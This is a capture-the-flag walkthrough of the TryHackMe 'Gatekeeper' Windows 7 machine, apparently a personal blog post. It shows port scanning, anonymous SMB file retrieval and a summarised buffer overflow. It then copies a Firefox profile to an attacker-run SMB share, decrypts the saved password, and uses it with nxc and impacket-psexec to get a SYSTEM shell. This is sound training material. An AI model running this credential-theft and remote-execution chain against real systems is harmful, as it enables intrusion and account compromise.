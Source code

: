 ```yaml
---
title: "Gatekeeper"
date: 2024-11-17
categories:
  - TryHackMe
  - Windows
tags:
  - TryHackMe
  - Windows
---
```


# Gatekeeper

<!-- more -->

## Enumeration

```bash
$ nmap -sC -Pn -T4 --min-rate 1000 -p- 10.10.249.16 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-17 00:47 CET
Nmap scan report for 10.10.249.16
Host is up (0.076s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
| ssl-cert: Subject: commonName=gatekeeper
| Not valid before: 2024-11-15T22:51:11
|_Not valid after:  2025-05-17T22:51:11
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-11-16T18:14:30-05:00
| smb2-time: 
|   date: 2024-11-16T23:14:30
|_  start_date: 2024-11-16T22:50:40
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 0
|_clock-skew: mean: 1h04m59s, deviation: 2h53m12s, median: -35m01s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Nmap done: 1 IP address (1 host up) scanned in 195.76 seconds

```

## Initial Access

`nc 10.10.249.16 31337` reveals a program that echoes anything we enter.
If we input a large number of `A`s, it crashes, indicating this is a buffer overflow machine.
We need to retrieve the program, so let's try accessing SMB shares without credentials.

```bash
$ smbclient --no-pass -L //10.10.249.16          
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
                                                                                                                                    
$ smbclient --no-pass //10.10.249.16/Users
Try "help" to get a list of possible commands.
                     
smb: \> ls
  .                                  DR        0  Fri May 15 03:57:08 2020
  ..                                 DR        0  Fri May 15 03:57:08 2020
  Default                           DHR        0  Tue Jul 14 09:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:54:24 2009
  Share                               D        0  Fri May 15 03:58:07 2020

smb: \> cd Share
smb: \Share\> ls
  .                                   D        0  Fri May 15 03:58:07 2020
  ..                                  D        0  Fri May 15 03:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 07:27:17 2020

                7863807 blocks of size 4096. 3984765 blocks available
smb: \Share\> get gatekeeper.exe
getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (22.5 KiloBytes/sec) (average 14.9 KiloBytes/sec)
smb: \Share\> exit
```

We have the file. Now, create the exploit on a Win32 machine.

- offset -> `146`
- bad chars -> `0x00`, `0x0A`
- jump address -> `080414C3`

Now we can retrieve the user flag.

## Privilege Escalation

We find a `Firefox.lnk` file in the user's desktop folder, so we attempt to extract credentials from Firefox.
Navigate to `C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles`.

On Kali, create an SMB share with `impacket-smbserver -smb2support -user 'test' -password 'test' kali \`pwd\``.

Copy the profile folder to Kali:

```bash
copy lfjfn812a.default-release z:\
```

Next, install [`firefox_decrypt`](https://github.com/unode/firefox_decrypt):

```bash
git clone https://github.com/unode/firefox_decrypt.git
                                                                                                  
python3 firefox_decrypt.py /home/kali
2024-11-17 17:44:37,595 - WARNING - profile.ini not found in /home/kali
2024-11-17 17:44:37,595 - WARNING - Continuing and assuming '/home/kali' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

With these credentials, we try `nxc`:

```bash
nxc smb 10.10.92.113 -u 'mayor' -p '8CL7O1N78MdrCIsV'
SMB         10.10.92.113    445    GATEKEEPER       [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:GATEKEEPER) (domain:gatekeeper) (signing:False) (SMBv1:True)
SMB         10.10.92.113    445    GATEKEEPER       [+] gatekeeper\mayor:8CL7O1N78MdrCIsV (Pwn3d!)
```

Using `impacket-psexec`:

```bash
$ impacket-psexec 'mayor':'8CL7O1N78MdrCIsV'@10.10.92.113 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.92.113.....
[*] Found writable share ADMIN$
[*] Uploading file FMkKbYVP.exe
[*] Opening SVCManager on 10.10.92.113.....
[*] Creating service aYIa on 10.10.92.113.....
[*] Starting service aYIa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Post Exploitation

```bash
C:\Windows\system32> cd C:\Users\mayor\desktop
 
C:\Users\mayor\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\mayor\Desktop

05/14/2020  08:58 PM    <DIR>          .
05/14/2020  08:58 PM    <DIR>          ..
05/14/2020  08:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  16,385,642,496 bytes free

C:\Users\mayor\Desktop> type root.txt.txt
{Th3_M4y0r_C0ngr4tul4t3s_U}
```
